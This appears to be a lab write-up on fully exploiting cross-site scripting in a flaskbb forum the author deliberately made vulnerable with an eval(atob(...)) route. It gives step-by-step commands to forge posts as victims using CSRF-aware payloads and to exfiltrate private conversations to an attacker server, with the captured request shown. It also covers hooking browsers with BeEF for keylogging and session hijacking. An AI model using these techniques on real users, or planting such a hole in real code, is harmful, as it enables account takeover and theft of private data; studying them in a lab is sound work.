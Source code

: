 Attacks
=======
Given a vulnerable application, we will try to develop some realistic attack scenarios. The focus is really not on triggering the XSS, but rather demonstrating ways to fully exploit it.
First we will setup a vulnerable application, then propose 3 different attacks :

    - execute actions on behalf of user
    - steal private information
    - Man In the Browser attack : interactive session hijacking, keylogger, browser exploits...
        
I. Setup the vulnerable application : a forum.
----------------------------------------------
In an attempt to be as realistic as possible, we decided to start with a real full-fledged application. We choose flaskbb[0], a forum developped in python using flask.

First step is to add our extra XSS "feature". We kept it simple by adding a new route to the project, where you can provide base64-encoded javascript to be executed. For example, executing "alert(1)" will look like this :

    localhost:8080/xss/YWxlcnQoMSkK

The base64 is a handy way to avoid conflicts between our payloads and flask's route matching rules[A], and more important allows us to bypass flask's parameters sanitizing before template generation. It will also work around any protection from the browser. Implementation steps are provided here[1]

Bonus : flaskbb is kind enough to come in the dev version with a test function to populate it with dummy users, topics and posts !

II. Post a message on behalf of a user.
---------------------------------------
First, let's introduce two tools that we will use : 

    burp[2] : an http proxy, often used in web penetration tests because it is awesome. We will just scratch the surface here, using it to log our http traffic.
    xssless[3] : a python script to generate XSS payloads from burp's logs. Best part is that it takes care of crsf tokens (nonces) !

The procedure is as follow : 

    1) log in with a user we control.
    2) start burp's interception
    3) post a new message.
    4) export burp's logs
    5) list the csrf tokens
    6) run xssless
    7) modify the payload with our malicious message
    8) craft our exploit
    9) expose targeted users to our exploit

Steps 1-4 I won't describe.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    python2 ~/secu/xssless/xssless.py -s -p params ../burp-logs/post-topic.burp > post-topic.js

You can see it here[4].

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet and bring authenticated users of our forum to visit it.

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  [[Images ?]]

III. Read a user's private conversations.
-----------------------------------------
Of course, like any exploit, this one is dirty as heck[4]. But hey, it kind of works.

    base64 -w0 read-private.js > read-private.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html
    cd malicious-website && python3 -m http.server 1337

When someone (test2 in my case) visits localhost:1337/read-private.html, after a short while our malicious server receives another request :

    "GET /%5B%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test1%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Private%20conversation%20is%20private%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20Or%20is%20it%20%3F%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Another%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20%E2%80%9Cprivate%E2%80%9D%20conversation%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20last%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20of%20thoses%20%22%0A%20%20%7D%0A%5D HTTP/1.1" 404 -

    >> rcv="%5B%0...7D%0A%5D"
    >> python2 -c "from urllib import unquote; print unquote('$rcv');"
        [
          {
            "author": "test1",
            "title": " Private conversation is private ",
            "content": " Or is it ? "
          },
          {
            "author": "test3",
            "title": " Another ",
            "content": " “private” conversation "
          },
          {
            "author": "test3",
            "title": " last ",
            "content": " of thoses "
          }
        ]


IV. Steal a user's password, and beyond ! Man In the Browser.
-------------------------------------------------------------

BeEF[6] : It means Browser Exploitation Framework, blablabla
    
Add a beef hook to our page :

    base64 -w0 add-hook.js > add-hook.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/add-hook.b64)'></iframe>" > malicious-website/add-hook.html
    cd malicious-website && python3 -m http.server 1337

Start beef server, and wait for a visitor.

Key logger
    
    Start the Man In the Browser attack to keep the target hooked when it follows links on the current domain.
    [SREENSHOT]
    All actions and inputs are recorded under the "logs" panel.
    [SREENSHOT]
    
Interactive session hijacking

        Beef > target > use as proxy

    [SREENSHOT]

        chromium --temp-profile --proxy-server=localhost:6789

    [SREENSHOT]

    Unfortunately, I couldn't manage to get it to work. The requests stay blocked somewhere between BeEF and the zombie... 


V. Going further.
-----------------
    xssless : worms !


NBs
---
[A] But here I learnt that b64 is "a-zA-Z0-9=" AND... "/".
    I can't figure out why, it seems so broken, but here it is : b64encode('t ?') == 'dCA/Cg=='
    So my url pattern may be broken by b64. Doesn't happen often though.


Refs
----
    [0] https://github.com/sh4nks/flaskbb
    [1] The following modifications have been made to flaskbb[0] :
            forum/views.py (l35-66)
                @forum.route("/xss/<payload>")
                def index(payload):
                [...]
                return( [...],
                    payload=payload)

            templates/forum/index.html (l4)
                <script>eval(atob("{{ payload }}"))</script>
        Also, because of a bug I removed thoses lines :
            templates/forum/topic.html
                {% if topic.first_post_id == post.id %}
                    {% if current_user|delete_topic(topic.first_post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_topic', topic_id=topic.id, slug=topic.slug) }}">Delete</a> |
                    {% endif %}
                {% else %}
                    {% if current_user|delete_post(post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_post', post_id=post.id) }}">Delete</a> |
                    {% endif %}
                {% endif %}
        and didn't investigate any further...
    [2] http://portswigger.net/burp/
    [3] https://github.com/mandatoryprogrammer/xssless
    [4] https://github.com/centime/xss-paper/blob/master/payloads/post-topic.js
    [5] https://github.com/centime/xss-paper/blob/master/payloads/read-private.js
    [6] http://beefproject.com/